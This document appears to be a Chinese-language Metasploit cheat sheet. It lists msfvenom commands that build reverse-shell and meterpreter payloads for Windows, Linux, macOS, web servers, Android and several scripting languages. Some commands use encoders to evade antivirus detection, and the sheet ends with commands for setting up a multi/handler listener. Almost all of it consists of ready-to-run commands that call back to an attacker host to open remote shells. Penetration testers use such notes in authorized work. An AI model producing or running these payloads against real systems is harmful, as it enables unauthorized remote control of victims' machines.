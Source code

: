   ##### Auxiliary
	>show auxiliary 查看所有模块
  ##### Payload
	>show payloads 查看所有攻击载荷
	Payload是目标被攻击时执行的实际功能代码
	生成载荷
	>use exploit/multi/script/web_delivery
	>set target 2
	>msfvenom --list payloads 列出所有payload
	>msfvenom --list encoders 列出所有编码器
    Windows
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe -o /root/1.exe
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o 1.exe
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f psh-reflection >xxx.ps1
	>msfvenom -a x64 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
	>msfvenom -p windows/shell_hidden_bind_tcp LHOST=192.168.0.1 LPORT=11111  -f exe> /root/1.exe  生成NC正向连接
	>msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f exe> 1.exe 生成NC反向连接
    Linux
	>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e -f elf -a x86 --platform linux -o shell
	>msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.1 LPORT=11111 -f raw > shell.sh
    MacOS
	>msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f macho > shell.macho
    Web
	>msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.php
	>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f war > shell.war
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f aspx -o payload.aspx
	>msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.jsp
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f asp > shell.asp
    Android
	>msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f apk -o payload.apk
	>msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 -f raw > shell.apk
	>msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 R > test.apk
    shellcode
	>msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.1 LPORT=11111 -f c –o /root/1.c
	>msfvenom -p cmd/unix/reverse_python LHOST=192.168.0.1 LPORT=11111 -o shell.py
	>msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.py
	>msfvenom -p cmd/unix/reverse_perl LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.pl
	>msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.rb
	>msfvenom -p cmd/unix/reverse_lua LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.lua
  ###### msf设置监听
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http 指定相应的payload
	>set LHOST 192.168.0.1
	>set LPORT 11111
	>exploit -j 后台监听
	或在exploit模块中直接使用set payload 命令指定payload